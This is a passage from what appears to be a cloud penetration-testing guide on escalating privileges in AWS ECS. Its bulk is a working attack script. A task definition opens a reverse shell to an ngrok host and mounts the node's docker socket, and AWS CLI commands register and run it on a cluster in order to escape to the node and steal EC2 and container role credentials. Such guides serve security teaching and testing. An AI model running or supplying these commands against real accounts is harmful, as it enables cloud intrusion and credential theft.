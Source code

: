 **Potential Impact:** Direct privesc to any ECS role.

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

This scenario is like the previous ones but **without** the **`iam:PassRole`** permission.\
This is still interesting because if you can run an arbitrary container, even if it's without a role, you could **run a privileged container to escape** to the node and **steal the EC2 IAM role** and the **other ECS containers roles** running in the node.\
You could even **force other tasks to run inside the EC2 instance** you compromise to steal their credentials (as discussed in the [**Privesc to node section**](aws-ecs-privesc.md#privesc-to-node)).

{% hint style="warning" %}
This attack is only possible if the **ECS cluster is using EC2** instances and not Fargate.
{% endhint %}

```bash
printf '[
    {
        "name":"exfil_creds",
        "image":"python:latest",
        "entryPoint":["sh", "-c"],
        "command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
        "mountPoints": [
            {
                "readOnly": false,
                "containerPath": "/var/run/docker.sock",
                "sourceVolume": "docker-socket"
            }
        ]
    }
]' > /tmp/task.json

printf '[
    {
        "name": "docker-socket",
        "host": {
            "sourcePath": "/var/run/docker.sock"
        }
    }
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
    --cpu 256 --memory 512 \
    --requires-compatibilities '["EC2"]' \
    --container-definitions file:///tmp/task.json \
    --volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
    --launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```

